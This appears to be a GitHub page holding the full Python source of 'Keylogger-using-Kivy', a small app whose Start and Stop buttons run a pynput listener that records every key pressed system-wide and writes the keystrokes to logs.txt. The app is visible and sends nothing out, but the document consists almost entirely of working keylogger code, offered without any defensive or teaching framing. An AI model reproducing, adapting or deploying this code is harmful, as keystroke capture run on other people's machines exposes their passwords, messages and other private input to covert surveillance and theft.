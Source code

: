 # Keylogger-using-Kivy

from kivy.app import App
from kivy.uix.boxlayout import BoxLayout
from kivy.uix.button import Button
from kivy.uix.label import Label
from pynput import keyboard


class Keylogger:
    def __init__(self):
        self.key_list = []
        self.is_logging = False
        self.listener = None

    def start_keylogger(self):
        self.is_logging = True
        self.log_status('Keylogger started...')

        def on_press(key):
            if self.is_logging:
                self.key_list.append(str(key))

        def on_release(key):
            if key == keyboard.Key.esc:
                self.stop_keylogger()
                return False

        self.listener = keyboard.Listener(on_press=on_press, on_release=on_release)
        self.listener.start()

    def stop_keylogger(self):
        self.is_logging = False
        self.log_status('Keylogger stopped...')

        self.listener.stop()
        self.listener.join()

        with open('logs.txt', 'w') as log_file:
            log_file.write('\n'.join(self.key_list))

        self.key_list = []

    def log_status(self, message):
        print(message)  # Update status in console or use a separate label in the UI


class KeyloggerApp(App):
    def build(self):
        self.keylogger = Keylogger()

        layout = BoxLayout(orientation='vertical', spacing=10)

        self.status_label = Label(text='Keylogger is idle', size_hint=(1, 0.2))
        layout.add_widget(self.status_label)

        self.start_button = Button(text='Start Keylogger', size_hint=(1, 0.4))
        self.start_button.bind(on_press=self.start_keylogger)
        layout.add_widget(self.start_button)

        self.stop_button = Button(text='Stop Keylogger', size_hint=(1, 0.4))
        self.stop_button.bind(on_press=self.stop_keylogger)
        self.stop_button.disabled = True
        layout.add_widget(self.stop_button)

        return layout

    def start_keylogger(self, instance):
        self.start_button.disabled = True
        self.stop_button.disabled = False
        self.keylogger.start_keylogger()
        self.status_label.text = 'Keylogger is active...'

    def stop_keylogger(self, instance):
        self.start_button.disabled = False
        self.stop_button.disabled = True
        self.keylogger.stop_keylogger()
        self.status_label.text = 'Keylogger has been stopped.'


if __name__ == '__main__':
    KeyloggerApp().run()
